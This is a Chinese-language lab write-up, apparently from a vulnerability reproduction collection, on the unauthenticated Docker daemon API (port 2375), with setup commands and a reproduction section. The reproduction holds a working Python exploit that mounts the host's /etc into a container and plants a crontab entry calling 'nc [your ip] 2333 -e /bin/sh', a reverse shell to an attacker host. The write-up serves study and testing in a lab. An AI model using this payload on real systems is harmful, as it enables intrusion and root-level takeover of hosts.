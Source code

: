# Docker daemon api 未授权访问漏洞

## 漏洞描述

参考链接：

- [http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8](http://www.loner.fm/drops/#!/drops/1203.新姿势之Docker Remote API未授权访问漏洞分析和利用)

## 环境搭建

Vulhub编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

利用方法是，随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

```
import docker

client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

监听2333端口，接收反弹shell。

此处的反弹shell需要和/etc/crontabs/root文件同时写入，不能后续追加。

![image-20220222182515581](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221825647.png)

